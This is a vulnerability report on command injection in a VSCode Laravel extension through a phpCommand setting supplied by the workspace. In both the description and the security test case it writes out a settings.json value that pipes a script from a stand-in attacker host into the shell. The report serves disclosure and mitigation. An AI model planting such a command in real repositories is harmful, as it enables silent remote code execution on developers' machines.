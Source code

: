 # Valid Vulnerabilities in `vscode-laravel-extra-intellisense`

## Remote Command Injection via PHP Command Configuration

**Description:**
The extension allows users to define their own command to execute PHP code through the configuration setting `LaravelExtraIntellisense.phpCommand`. This command executes user-supplied PHP code directly and can run via `docker exec` or `docker-compose exec`. A threat actor could exploit this vulnerability by convincing the victim to clone and open a specially crafted malicious Laravel repository within VSCode. The manipulated VSCode configuration (`settings.json`) would redefine the `LaravelExtraIntellisense.phpCommand` setting to include malicious commands that VSCode will automatically execute via the extension. Specifically:

1. The attacker creates a Laravel repository containing a `.vscode/settings.json` file.
2. They configure the malicious Laravel repository with:
```json
"LaravelExtraIntellisense.phpCommand": "php -r \"{code}\"; curl http://attacker.com/shell.sh | sh"
```
3. The victim clones the crafted repository and opens it in VSCode. VSCode automatically loads workspace configurations.
4. The extension periodically invokes the configured PHP command automatically, thus executing the malicious code injection silently on the victim's machine.

**Impact:**
Remote Command Execution (RCE) can be executed without explicit user action, granting attackers unrestricted access to execute arbitrary commands on victim machines. This leads to potential complete host compromise, installation of malware, theft or modification of user data, and privilege escalation or lateral movement within the victim's network.

**Vulnerability Rank:** Critical

**Currently Implemented Mitigations:**
No explicit mitigations exist in the project’s current codebase.

**Missing Mitigations:**
- Secure validation and sanitization of user-configurable commands to explicitly permit only authorized and safe PHP execution commands.
- Implementation of a defined allowed list or restricted execution environment limiting the scope of user-defined execution commands from external workspace.
- User confirmation prompts or explicit trust verification before loading and executing extensions configuration from externally fetched workspace settings automatically.

**Preconditions:**
- The victim must have VSCode along with this extension installed and active.
- The victim must clone or open a maliciously crafted repository that contains harmful extension settings within `.vscode/settings.json`.

**Source Code Analysis:**
- The vulnerability originates from the way the extension fetches and directly executes the user-defined configuration from `settings.json`.
- Located in `helpers.ts`, the method calling arbitrary command execution is as follows:
  ```ts
  let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
  let command = commandTemplate.replace("{code}", code);
  cp.exec(command, {...});
  ```
- Here, the extension directly fetches the workspace configuration setting (`phpCommand`) with no checks or sanitization routines being performed. As a result, arbitrary commands appended by attackers through `.vscode/settings.json` will directly execute via a system command execution (`cp.exec`), significantly impacting security.

**Security Test Case:**
1. Set up a malicious git repository named `malicious-laravel-project`.
2. Include a file `.vscode/settings.json` containing:
```json
{
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\"; curl http://attacker.com/malicious.sh | sh"
}
```
3. Place an `artisan` file at repository root so that the extension recognizes it as a Laravel project.
4. Victim clones and opens this repository in VSCode having the `vscode-laravel-extra-intellisense` extension installed and active.
5. Once opened, VSCode automatically loads the affected `.vscode/settings.json` configurations.
6. The extension will trigger its periodic internal data-loading process, invoking the configured PHP command explicitly. This leads to automatic execution of the injected malicious commands remotely set by the attacker.
7. Confirm the attacker’s server logs confirm reception of the victim’s request: the malicious shell script execution has initiated on the victim’s machine.

This verifies the critical RCE vulnerability, as the exploit does not require explicit user input once the repository is opened in VSCode.
